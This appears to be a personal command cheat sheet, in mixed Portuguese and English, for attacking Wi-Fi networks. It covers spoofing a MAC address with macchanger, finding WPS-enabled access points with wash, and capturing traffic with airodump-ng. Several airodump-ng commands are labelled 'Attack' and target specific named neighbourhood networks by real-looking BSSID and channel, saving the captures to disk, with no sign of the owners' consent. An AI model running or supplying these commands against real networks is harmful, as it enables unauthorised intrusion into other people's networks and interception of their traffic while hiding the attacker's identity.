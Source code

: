 
## Change Mac Address

```bash
# Ver Mac Address
ip addr show wlan0mon

# Help
sudo macchanger --help

# first put your wireless card off
sudo ifconfig wlan0mon down

# Random Mac Address
sudo macchanger --random wlan0mon

# Default Mac Address
sudo macchanger --permanent wlan0mon

# Specific Mac Address
sudo macchanger -mac=XXX wlan0mon

# Up
sudo ifconfig wlan0mon up
```

<br>

---

## Wash

```bash
# This shows all WPS enabled Aps using wireless interface.
sudo wash --interface wlan0mon
```

<br>

---

## AiroDump

```bash
# Vê os pacotes entre roteadores e devices
sudo airodump-ng wlan0mon

# Attack (Domingo) Santos
sudo airodump-ng -c 1 --bssid 98:7E:CA:1C:B4:7F -w ~/Desktop/ wlan0mon

sudo airodump-ng -c 11 --bssid 84:A1:D1:52:87:A6 -w ~/Desktop/ wlan0mon



# Attack (Bety1310) Santos
sudo airodump-ng -c 11 --bssid 94:6A:77:27:29:EE wlan0mon
sudo airodump-ng -c 11 --bssid 94:6A:77:27:29:EE -w ~/Documents/ wlan0mon

# Attack (2G GAULIA 1981) Santos
sudo airodump-ng -c 1 --bssid 6C:55:E8:C3:C4:98 wlan0mon
sudo airodump-ng -c 1 --bssid 6C:55:E8:C3:C4:98 -w ~/Documents/gaulia wlan0mon
```
